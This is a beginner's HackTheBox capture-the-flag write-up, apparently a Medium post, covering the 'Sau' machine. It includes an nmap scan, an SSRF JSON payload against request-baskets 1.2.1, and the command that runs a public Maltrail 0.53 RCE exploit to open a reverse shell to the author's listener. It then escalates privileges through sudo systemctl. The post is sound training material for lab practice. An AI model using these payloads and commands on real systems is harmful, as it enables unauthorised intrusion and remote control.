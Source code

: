 > medium-to-markdown@0.0.3 convert
> node index.js https://medium.com/@ahmedgomaa_45441/hackthebox-write-up-sau-machine-438bc39be33f

HackTheBox write up: “Sau” Machine
==================================

![](https://miro.medium.com/v2/resize:fill:88:88/0*g5iT_mFvpwS_KFyc)

(https://medium.com/@ahmedgomaa_45441?source=post_page-----438bc39be33f--------------------------------)

[zerosandones](https://medium.com/@ahmedgomaa_45441?source=post_page-----438bc39be33f--------------------------------)

·

[Follow](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fsubscribe%2Fuser%2Fa3f1b2b68ccf&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40ahmedgomaa_45441%2Fhackthebox-write-up-sau-machine-438bc39be33f&user=zerosandones&userId=a3f1b2b68ccf&source=post_page-a3f1b2b68ccf----438bc39be33f---------------------post_header-----------)

5 min read·2 days ago


Welcome to my first write up for Hackthebox machines!

i thought it would be a good way to help me understand the topics little bit deeper, as i am trying to explain them to others, as well as maybe help others, and share my thought process, breaking into the machine.

![pic](https://miro.medium.com/v2/resize:fit:550/format:webp/1*OSckDAMfASUW56DpVUAr8w.png  " Sau Machine ( Easy )")


Sau machine is your typical Easy linux machine, pretty straight forward in most parts, only one trick in obtaining user flag, and the privilege escalation is a straightforward one ( i spent 40 minutes on it, i might be a little bit stupid ngl ).

Okay, we start as we always do, with basic Nmap scan to the target, and see what do we have here,

![pic](https://miro.medium.com/v2/resize:fit:640/format:webp/1*zXq9MMkP0_eMZfxkTcHn2Q.png)

nmap -sV -sC 10.10.11.224 -v



We are using -sV and -sC here for probing the open ports and trying to get info about the version running by running it against default nmap scripts, the -v for verbose results showing, so we get an idea what is going in, while the scan is undergoing.

nmap scan results

![pic](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*12PAu2RijS_6-IdBXiqXLA.png)


We can already see here couple of intresting information, the most eye-catching the open port 55555, which we can see from the results runs some sort of a webpage, lets try to visit it and see whats going on!



![Web interface](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*--XGicxW2ksrNoC19GN4nA.png)


We are greeted with a web interface, that seems to make some sort of baskets, lets try all the functionalities to try to poke around and get a better idea of what does this application does.

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*VbgzdLUJz2aexI4AZF1PEg.png)


Created a bucket, and recieved respones

We can see here we created a bucket name “lol”, and it gives us an api url “[http://10.10.11.224:55555/lol](http://10.10.11.224:55555/lol)”, where if we send web requests to it, we can log the requests and the respone in the web interface, a simple get request with curl would be with command:

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*_RNChTUNc7Ls-War1lTmcg.png)


```
curl "http:10.10.11.224:55555/lol" 
```

Now if we take a look at the other fucntionalites provided, we can see in the settings, and option thats called: “Forward URL”

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*lFzQY3Mc_EfadmPL7IqjqA.png)


Forward URL? like can i send a request and the server forwards it? to anywhere? can it hit home? 127.0.0.1 kind of home? okay huge potential!

looking around in the other website pages and functionalities, i can help but see a footer that mentions the library used and its version, “request-baskets, version 1.2.1”

![](https://miro.medium.com/v2/resize:fit:612/format:webp/1*vSB1Hv5E65XO6DtPfARVEA.png)


okay, thanks for the doing th hardwork, lets see if we can find and public vulnerabilites regarding the version of the software

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*Z2BRv6Dx2-fWj-ub1x23Ag.png)

yeah, i think we pretty much found what are we searching for! ssrf vulnerable library, hehe

using assist from the detailed thread about the SSRF : [https://notes.sjtu.edu.cn/s/MUUhEymt7](https://notes.sjtu.edu.cn/s/MUUhEymt7#)

we see that the api /api/baskets/{name} is vulnerable,

and using the crafted payload to send a post request, that redirects to home(127.0.0.1) and sending it using postman

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*zFCktzlRu2wSY_hJBf507w.png)

```
{  
  "forward\_url": "http://127.0.0.1:80/test",  
  "proxy\_response": false,  
  "insecure\_tls": false,  
  "expand\_path": true,  
  "capacity": 250  
}
```

we can see, we have accessed internal page, in the footer of this page, we can notice the library and version, “Maltrail V0.53”.

Again, we lookup to see if there are any public CVEs related to it

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*DsFLJ2vLWOuyX8vFkPYoCw.png)


we can see there is an RCE exploit available, with POC, lets download this POC from github and see if we can run it!

now if we look at the exploit documentation, we can see the arguments it takes to run it

```
python3 exploit.py \[listening\_IP\] \[listening\_PORT\] \[target\_URL\]
```

in this case, we have

```
python3 exploit.py 10.10.16.7 4444 http://10.10.11.224:55555/lol
```

But before we run it, we need to have a listener running to catch the connection,( Since its a reverse shell, not bind )

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*UlDOL2EKC_lYNCeIOIMN6g.png)

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*tJiwKGcndwkcjWVQpu834Q.png)


And after running the exploit, we can see, we have got our reverse shell successfully!

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*mA3JeHlEP_YuDPnRKvO7yQ.png)


we can then get our flag which is in the home/puma/flag.txt directory.

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — —

Now, we have the user flag, but in order to obtian the root flag, we need to escalate our privilges into root, there are multiple ways we can try to escalate our privilegs through, either with LinEnum or linPeas,

but like to first check manually if we can abuse any GTFObins that can give us root permissions, since its fast and easy step,

we can first start checking by running “sudo -l” to see what can run with sudo without the root password

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*jz1XkSxq20DL371fDqwr3Q.png)


we can see we can run systemctl with root without the root password, but can we maybe abuse it to give it root permissions? lets check if it is in the GTFObins…

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*YkG-ou08zpsVQwFnbE0-sA.png)


yessir! that means we can use it to escalate our priviliges, we can scroll down to see how exactly,

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*Ctis-Jvt78tFai-8bOzHTw.png)


Lets try ( C ) and see if it works,

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*woXC-9knl1Kl7Wwu2F45EQ.png)


yessir!

we can find root flag under /flag.txt!

i hope it was helpful!

see you next time!

![](https://miro.medium.com/v2/resize:fit:640/0*gCkCaZMd6bc7fUA3.gif)



